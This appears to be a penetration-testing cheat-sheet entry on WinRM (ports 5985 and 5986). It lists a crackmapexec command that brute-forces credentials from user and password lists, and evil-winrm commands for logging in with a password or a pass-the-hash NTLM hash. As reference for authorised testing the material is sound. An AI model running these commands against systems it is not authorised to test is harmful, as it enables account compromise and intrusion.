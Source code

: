 # WINRM - 5985 - 5986

#### Brute force <a href="#brute-force-9" id="brute-force-9"></a>

```bash
crackmapexec winrm <IP> -u <USERS_LIST> -p <PASSWORDS_LIST>
```

#### Connecting <a href="#connecting" id="connecting"></a>

```bash
evil-winrm -i <IP> -u <USER> -p <PASSWORD>
evil-winrm -i <IP> -u <USER> -H <HASH>
```
